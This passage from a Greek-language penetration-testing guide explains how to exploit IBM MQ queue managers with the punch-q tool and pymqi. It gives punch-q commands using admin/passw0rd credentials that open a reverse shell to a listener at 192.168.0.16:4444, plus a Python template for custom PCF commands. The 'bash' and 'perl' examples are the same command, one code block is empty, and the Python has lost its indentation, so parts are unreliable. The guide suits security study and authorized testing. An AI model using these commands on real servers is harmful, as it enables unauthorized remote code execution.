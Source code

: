 ```bash
```
**Να είστε προσεκτικοί ότι η εκκίνηση του προγράμματος είναι ασύγχρονη. Έτσι, χρειάζεστε ένα δεύτερο στοιχείο για να εκμεταλλευτείτε την ευπάθεια** ***(listener για reverse shell, δημιουργία αρχείου σε διαφορετική υπηρεσία, εξαγωγή δεδομένων μέσω δικτύου ...)***

**Παράδειγμα 2**

Για εύκολη reverse shell, **punch-q** προτείνει επίσης δύο payloads reverse shell:

* Ένα με bash
* Ένα με perl

*Φυσικά μπορείτε να δημιουργήσετε ένα προσαρμοσμένο με την εντολή `execute`.*

Για bash:
```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command reverse -i 192.168.0.16 -p 4444
```
Για perl:
```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command reverse -i 192.168.0.16 -p 4444
```
### Custom PCF

Μπορείτε να ερευνήσετε την τεκμηρίωση του IBM MQ και να χρησιμοποιήσετε απευθείας τη βιβλιοθήκη **pymqi** python για να δοκιμάσετε συγκεκριμένη εντολή PCF που δεν έχει υλοποιηθεί στο **punch-q**.

**Example:**
```python
import pymqi

queue_manager = 'MYQUEUEMGR'
channel = 'DEV.ADMIN.SVRCONN'
host = '172.17.0.2'
port = '1414'
conn_info = '%s(%s)' % (host, port)
user = 'admin'
password = 'passw0rd'

qmgr = pymqi.connect(queue_manager, channel, conn_info, user, password)
pcf = pymqi.PCFExecute(qmgr)

try:
# Replace here with your custom PCF args and command
# The constants can be found in pymqi/code/pymqi/CMQCFC.py
args = {pymqi.CMQCFC.xxxxx: "value"}
response = pcf.MQCMD_CUSTOM_COMMAND(args)
except pymqi.MQMIError as e:
print("Error")
else:
# Process response

qmgr.disconnect()

```
Αν δεν μπορείτε να βρείτε τα ονόματα σταθερών, μπορείτε να ανατρέξετε στην [τεκμηρίωση IBM MQ](https://www.ibm.com/docs/en/ibm-mq/9.3?topic=constants-mqca-character-attribute-selectors).
